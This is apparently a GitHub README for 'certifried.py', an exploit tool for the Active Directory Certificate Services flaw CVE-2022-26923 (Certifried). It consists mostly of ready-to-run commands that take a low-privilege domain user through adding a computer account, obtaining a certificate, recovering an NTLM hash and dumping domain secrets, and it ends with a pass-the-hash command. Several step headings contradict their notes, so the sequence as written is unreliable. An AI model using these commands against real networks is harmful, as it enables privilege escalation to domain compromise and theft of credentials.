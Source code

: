 # Certifried CVE-2022-26923

### An authenticated user could manipulate attributes on computer accounts they own or manage, and acquire a certificate from Active Directory Certificate Services that would allow elevation of privilege.

#### 1) Request certificate manually

 - python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 (Add the computer and update necessary attributes)

#### 2) Recover NTLM Hash

 - python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -use-ldap (Request the certificate manually)

### Proceed with secretsdump

#### 3) After obtaining the NTLM hash, proceed with dumping secrets

 - python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -computer-name 'ControlledComputer' -computer-pass 'Password123' -use-ldap -dump

#### 4) Modify computer account

 - python3 modify_computer.py range.net/ws01\$@192.168.86.182 -hashes :0e3ae07798e1bc9e02b049a795a7e69f (In case you obtain a machine account hash, modify the computer account.)
